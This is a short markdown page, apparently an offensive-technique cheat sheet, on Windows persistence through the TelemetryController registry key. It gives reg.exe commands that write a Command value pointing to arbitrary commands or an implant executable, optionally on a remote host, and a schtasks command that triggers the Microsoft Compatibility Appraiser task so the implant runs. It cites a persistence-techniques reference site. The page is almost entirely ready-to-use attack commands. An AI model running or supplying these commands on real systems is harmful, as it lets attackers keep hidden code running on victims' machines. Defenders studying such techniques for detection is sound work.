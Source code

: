 # TelemetryController

```
C:\> reg.exe query "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController"
```

```
C:\> reg.exe add "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController" /t REG_SZ /v Command /d "<commands>" /f

C:\> reg.exe add "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController" /t REG_SZ /v Command /d "C:\path\to\implant.exe" /f
```

```
C:\> schtasks.exe /run /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser"
```

---
## References

- [Persistence Info: TelemetryController](https://persistence-info.github.io/Data/telemetrycontroller.html)